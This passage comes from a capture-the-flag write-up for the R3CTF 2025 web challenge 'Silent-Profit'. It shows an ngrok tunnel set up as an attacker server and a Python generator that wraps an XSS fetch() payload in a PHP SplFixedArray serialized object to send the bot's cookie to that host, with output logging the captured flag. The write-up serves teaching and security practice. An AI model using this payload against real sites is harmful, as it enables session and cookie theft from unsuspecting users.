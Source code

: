 - Setup port forwarding with [ngrok](https://ngrok.com/):

```shell
┌[siunam♥Mercury]-(~/ctf/R3CTF-2025/Web/Silent-Profit)-[2025.07.07|14:12:46(HKT)]
└> ngrok tcp 8000           
[...]
Forwarding                    tcp://0.tcp.jp.ngrok.io:16499 -> localhost:8000                             
[...]
```

- Send the following serialized object string to the bot, which exfiltrate the `flag` cookie to our attacker server:

Payload generator:
{% raw %}
```python
from urllib.parse import quote_plus

xssPayload = '<script>fetch(`//0.tcp.jp.ngrok.io:16499/?${document.cookie}`)</script>'

serializedObjectString = f'O:13:"SplFixedArray":1:{{s:{len(xssPayload)}:"{xssPayload}";N;}}'
print(f'Serialized object string: {serializedObjectString}')
print(f'Serialized object string (URL encoded): {quote_plus(serializedObjectString)}')
```
{% endraw %}

Serialized object string:

```shell
┌[siunam♥Mercury]-(~/ctf/R3CTF-2025/Web/Silent-Profit)-[2025.07.07|14:18:53(HKT)]
└> python3 solve.py
Serialized object string: O:13:"SplFixedArray":1:{s:71:"<script>fetch(`//0.tcp.jp.ngrok.io:16499/?${document.cookie}`)</script>";N;}
Serialized object string (URL encoded): O%3A13%3A%22SplFixedArray%22%3A1%3A%7Bs%3A71%3A%22%3Cscript%3Efetch%28%60%2F%2F0.tcp.jp.ngrok.io%3A16499%2F%3F%24%7Bdocument.cookie%7D%60%29%3C%2Fscript%3E%22%3BN%3B%7D
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/R3CTF-2025/images/Pasted%20image%2020250707142136.png)

```shell
[...]
127.0.0.1 - - [07/Jul/2025 14:21:41] "GET /?flag=r3ctf{test_flag} HTTP/1.1" 200 -
```

Nice!!

## Conclusion

What we've learned:

1. PHP universal insecure deserialization XSS gadget